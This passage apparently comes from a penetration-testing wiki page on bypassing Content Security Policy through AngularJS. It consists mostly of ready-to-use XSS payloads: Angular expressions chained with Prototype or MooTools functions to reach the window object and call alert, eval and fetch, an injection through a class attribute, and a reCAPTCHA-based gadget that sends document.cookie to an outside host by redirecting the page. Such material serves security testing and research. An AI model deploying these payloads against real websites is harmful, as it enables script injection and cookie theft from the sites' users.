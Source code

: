 #### Payloads using Angular + a library with functions that return the `window` object ([check out this post](https://blog.huli.tw/2022/09/01/en/angularjs-csp-bypass-cdnjs/)):

{% hint style="info" %}
The post shows that you could **load** all **libraries** from `cdn.cloudflare.com` (or any other allowed JS libraries repo), execute all added functions from each library, and check **which functions from which libraries return the `window` object**.
{% endhint %}

```markup
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.js" /></script>
<div ng-app ng-csp>
 {{$on.curry.call().alert(1)}}
 {{[].empty.call().alert([].empty.call().document.domain)}}
 {{ x = $on.curry.call().eval("fetch('http://localhost/index.php').then(d => {})") }}
</div>


<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
<div ng-app ng-csp>
  {{$on.curry.call().alert('xss')}}
</div>


<script src="https://cdnjs.cloudflare.com/ajax/libs/mootools/1.6.0/mootools-core.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
<div ng-app ng-csp>
  {{[].erase.call().alert('xss')}}
</div>
```

Angular XSS from a class name:

```html
<div ng-app>
<strong class="ng-init:constructor.constructor('alert(1)')()">aaa</strong>
</div>
```

#### Abusing google recaptcha JS code

According to [**this CTF writeup**](https://blog-huli-tw.translate.goog/2023/07/28/google-zer0pts-imaginary-ctf-2023-writeup/?\_x\_tr\_sl=es&\_x\_tr\_tl=en&\_x\_tr\_hl=es&\_x\_tr\_pto=wapp#noteninja-3-solves) you can abuse [https://www.google.com/recaptcha/](https://www.google.com/recaptcha/) inside a CSP to execute arbitrary JS code bypassing the CSP:

```html
<div
  ng-controller="CarouselController as c"
  ng-init="c.init()"
>
&#91[c.element.ownerDocument.defaultView.parent.location="http://google.com?"+c.element.ownerDocument.cookie]]
<div carousel><div slides></div></div>

<script src="https://www.google.com/recaptcha/about/js/main.min.js"></script>
```

